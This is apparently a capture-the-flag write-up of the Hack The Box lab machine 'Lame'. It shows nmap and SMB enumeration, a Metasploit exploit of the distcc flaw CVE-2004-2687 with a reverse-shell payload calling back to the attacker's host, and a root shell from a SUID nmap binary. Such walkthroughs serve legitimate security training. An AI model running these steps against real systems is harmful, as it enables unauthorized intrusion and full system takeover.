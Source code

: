 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Lame

## Summary

[Lame](https://app.hackthebox.com/machines/1) is an <mark style="color:green;">easy-rated</mark> beginner-friendly machine offering an engaging foothold and a standard privilege escalation path. Despite unfruitful attempts at **enumerating host shares**, exploration of the **`distcc`** service unveils exploitable opportunities. Leveraging **Metasploit**, we establish our **foothold**, while a search for **SUIDs** enables successful **privilege escalation**.

<table><thead><tr><th width="94" align="right">Step</th><th>Action</th><th>Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td><code>distcc</code> research</td><td><a href="../../../tools/tools/port-scanners/nmap.md">nmap</a>, <a href="https://www.metasploit.com/">metasploit</a></td><td>Foothold</td></tr><tr><td align="right">2</td><td>Host enumeration</td><td><a data-footnote-ref href="#user-content-fn-1">LotL</a></td><td>Privilege escalation</td></tr></tbody></table>

## Recon

### Open Ports

Let's start with a port-scan using our [very-simple script](../../../tools/tools/port-scanners/nmap.md#nmap-scan).

```bash
$ nmap-scan.sh 10.10.10.3
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

Based on Nmap's result, there are 5 ports open which reveal some interesting information worth noting down (Figure 1).

<figure><img src="../../../.gitbook/assets/lame_nmap.png" alt=""><figcaption><p>Figure 1: Port scanning using <code>nmap</code>.</p></figcaption></figure>

Before moving forward, we should add the hostname, the domain name and the FQDN[^2] to our local DNS file.

```bash
$ grep lame /etc/hosts
10.10.10.3      hackthebox.gr lame.hackthebox.gr lame
```

### FTP

We can confirm that the FTP server is completely empty, so not much to do here.

```bash
# Connecting to the FTP server
$ ftp anonymous@lame
Connected to hackthebox.gr.
220 (vsFTPd 2.3.4)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50264|).
150 Here comes the directory listing.
226 Directory send OK.
ftp>
```

### SMB

The SMB server also allows anonymous authentication and by enumerating it using [NetExec](../../../tools/tools/active-directory/netexec-cme.md), we see only one non-default share: `tmp`. Interestingly enough, we have both `READ` and `WRITE` access to it, which allows us to spider it. At the first glance, the file `vgauthsvclog.txt.0` seems interesting, but, unfortunately, it contains nothing useful.

```bash
# Enumerating SMB shares
nxc smb lame -u '' -p '' --shares
# Spidering the tmp share
nxc smb lame -u '' -p '' --spider tmp --regex .
# Downloading the file
nxc smb lame -u '' -p '' --share tmp --get-file vgauthsvclog.txt.0 vgauthsvclog.txt
```

<figure><img src="../../../.gitbook/assets/lame_smb.png" alt=""><figcaption><p>Figure 2: Enumerating the SMB server.</p></figcaption></figure>

Since we have `WRITE` access to the `tmp` share, we can try to steal some hashes by uploading a `SCF` file to it as described [here](../../../services/services/smb-139-445.md#scf), but that does not seem to work.

## Foothold

### Distcc

We are out of choices; the only port left is the strange `3632`! So let's find out about that. Based on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc), `distcc` is _a distributed compilation tool that allows code to be compiled across multiple machines in a network with the goal of significantly reducing compilation time via workload distribution_.

There is only a Metasploit module to try on the above article which is based on [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687) and leads to RCE. There is also an [Nmap script](https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html) that exploits it, so let's try that first (Figure 3).

{% code overflow="wrap" %}
```bash
# Using NSE to check for 
sudo nmap -p3632 10.10.10.3 --script=distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/lame_NSE.png" alt=""><figcaption><p>Figure 3: Exploiting <code>distcc</code> using Nmap's NSE.</p></figcaption></figure>

That worked, so let's get a shell via Metasploit and, hopefully, read the `user.txt` flag 🚩 (Figure 4).

```bash
# Launching metasploit console
msfconsole -q
# Selecting the module
msf6 > use exploit/unix/misc/distcc_exec
[*] No payload configured, defaulting to cmd/unix/reverse_bash
# Checking configuration options
msf6 exploit(unix/misc/distcc_exec) > show options
# Configuring the required variables
msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST tun0
LHOST => 10.10.14.22
# Executing the exploit
msf6 exploit(unix/misc/distcc_exec) > run
```

<figure><img src="../../../.gitbook/assets/lame_user_flag.png" alt=""><figcaption><p>Figure 4: Dropping into a shell and reading the user flag.</p></figcaption></figure>

## Privilege Escalation

### Permissions

After enumerating the host, we can't really find anything that we could use to elevate our privileges. The next step is to check for [SUID files](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit).

```bash
# Checkin for SUID files
daemon@lame:/$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
<SNIP>
```

From the above output, `nmap` stands out right away. Checking [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo) allows us to find a way and leverage the `nmap` binary (Figure 5) and read the `root.txt` flag 🚩.

<figure><img src="../../../.gitbook/assets/lame_gtfobins.png" alt=""><figcaption><p>Figure 5: The GFTOBins guidance on how to leverage the <code>nmap</code> binary.</p></figcaption></figure>

```bash
daemon@lame:/$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# cat /root/root.txt
cat /root/root.txt
026<REDACTED>125
```

[^1]: Living off the Land

[^2]: Fully Qualified Domain Name
